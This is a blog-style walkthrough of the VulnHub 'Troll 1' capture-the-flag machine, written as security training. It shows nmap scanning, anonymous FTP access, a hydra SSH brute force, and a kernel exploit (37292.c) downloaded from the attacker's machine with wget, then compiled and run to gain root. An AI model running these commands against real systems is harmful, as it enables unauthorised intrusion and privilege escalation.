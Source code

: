 ```yaml
---
title: "Troll 1"
date: 2024-07-10
draft: false
summary: "Writeup for Troll 1 CTF challenge on VulnHub."
tags: ["linux", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/troll1/cover.webp"
  caption: "Troll 1 VulnHub Challenge"
  alt: "Troll 1 cover"
platform: "VulnHub"
---
```


Troll is an easy boot2root challenge on vulnhub. The goal is simple, gain root and get Proof.txt from the /root directory.
<!--more-->
To download **Troll 1** click on the link given below:
- https://www.vulnhub.com/entry/tr0ll-1,100/

## Reconnaissance

I scanned the network using **nmap** to identify the target.

```bash
nmap -sn 192.168.1.0/24                                 
```

I then performed an **nmap** aggressive scan to gather more information.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN troll1.nmap
```

| **Port** | **Service** |
| -------- | ----------- |
| 21       | ftp         |
| 22       | ssh         |
| 80       | http        |

![](https://cdn.ziomsec.com/troll1/1.webp)
![](https://cdn.ziomsec.com/troll1/2.webp)

## Initial Access

Since port 80 was open, I accessed the web application through my browser.

![](https://cdn.ziomsec.com/troll1/3.webp)

I had also identified *robots.txt* in the aggressive scan so I accessed the endpoint mentioned in it.

```shell
$ curl http://TARGET/robots.txt
$ curl http://TARGET/secret
```

![](https://cdn.ziomsec.com/troll1/4.webp)

I fuzzed for hidden files and directories but did not get anything - so I moved onto the **FTP** server. Since it allowed *anonymous* login, I logged in and found a packet capture file. For further inspection, I downloaded the packet capture on my local system.

```shell
$ ftp TARGET # username/password: anonymous
ls
get lolpcap
```

![](https://cdn.ziomsec.com/troll1/5.webp)

I then opened the packet capture file using **wireshark**.

![](https://cdn.ziomsec.com/troll1/6.webp)

While going through the packets, I found a message from the data of **secret_stuff.txt** revealing a directory called `sup3rs3cr3tdirlol`.

![](https://cdn.ziomsec.com/troll1/7.webp)

I tried accessing it on my browser browser and got a directory listing.

![](https://cdn.ziomsec.com/troll1/8.webp)

I downloaded the file and found that this was an executable.

```shell
$ wget 'http://TARGET/sup3rs3cr3tdirlol/roflmao'
$ file roflmao
```

![](https://cdn.ziomsec.com/troll1/9.webp)

I then executed the binary and received a wierd response.

```shell
$ chmod +x roflmao
$ ./roflmao
```

![](https://cdn.ziomsec.com/troll1/10.webp)

At this point, I was confused what the message meant- does it have anything to do with my memory address? 

To keep things simple, I tried accessing the provided address on my browser and found another directory listing...

![](https://cdn.ziomsec.com/troll1/11.webp)

I accessed both directories thereafter.

![](https://cdn.ziomsec.com/troll1/12.webp)

![](https://cdn.ziomsec.com/troll1/13.webp)

Since both of them contained a text file, I viewed them both using **curl**.

```shell
$ curl http://TARGET/0x0856BF/this_folder_contains_the_password/Pass.txt
$ curl http://TARGET/0x0856BF/good_luck/which_one_lol.txt
```

![](https://cdn.ziomsec.com/troll1/14.webp)

I created a wordlist using all the words, filenames that were provided/displayed.

```shell
curl http://TARGET/0x0856BF/good_luck/which_one_lol.txt
```

![](https://cdn.ziomsec.com/troll1/15.webp)

> I also removed the **`Definitely not this one`** comment from the list.

![](https://cdn.ziomsec.com/troll1/16.webp)

I then used **hydra** to bruteforce the **ssh** credentials.

```shell
hydra -L WORDLIST -P WORDLIST ssh://TARGET
```

![](https://cdn.ziomsec.com/troll1/17.webp)

Finally, I logged in as **overflow**.

```shell
ssh overflow@TARGET
```

![](https://cdn.ziomsec.com/troll1/18.webp)

## Privilege Escalation

I proceeded to navigate to the */tmp* directory and downloaded the **Linux Smart Enumeration** script to explore methods for escalating my privileges.
- https://github.com/diego-treitos/linux-smart-enumeration

![](https://cdn.ziomsec.com/troll1/19.webp)

I executed the script but did not get anything useful. Since, I had the distribution info, I looked for kernel exploits using **searchsploit**.

![](https://cdn.ziomsec.com/troll1/20.webp)

![](https://cdn.ziomsec.com/troll1/21.webp)

After finding an exploit, I downloaded it onto my system and transferred it to the target. Then I executed the exploit and got **root** access.

```shell
# On Kali
$ searchsploit -m linux/local/37292.c
$ python -m http.server 8080
```

![](https://cdn.ziomsec.com/troll1/22.webp)

```shell
# on Target
$ wget http://KALI:8080/37292.c
$ gcc 37292.c
$ ./a.out
```

![](https://cdn.ziomsec.com/troll1/23.webp)

I spawned a tty shell and captured the final flag from the */root* directory.

```shell
$ export TERM=xterm
$ python -c 'import pty;pty.spawn("/bin/bash")'
$ cd /root;cat proof.txt
```

![](https://cdn.ziomsec.com/troll1/24.webp)

## Closure

Here's a detailed account of how I compromised **Troll 1**:
- I leveraged an **FTP** anonymous login vulnerability to retrieve a **pcap** file containing directory names.
- One of these directories contained an executable, leading to further discovery of additional paths.
- These paths included a wordlist of potential usernames and passwords.
- Using this wordlist, I successfully cracked valid credentials for **SSH**.
- With SSH access secured, I employed a **kernel exploit** to escalate my privileges.
- Ultimately, I obtained **proof.txt** from the */root* directory.

That's it from my side! Happy Hacking :)

---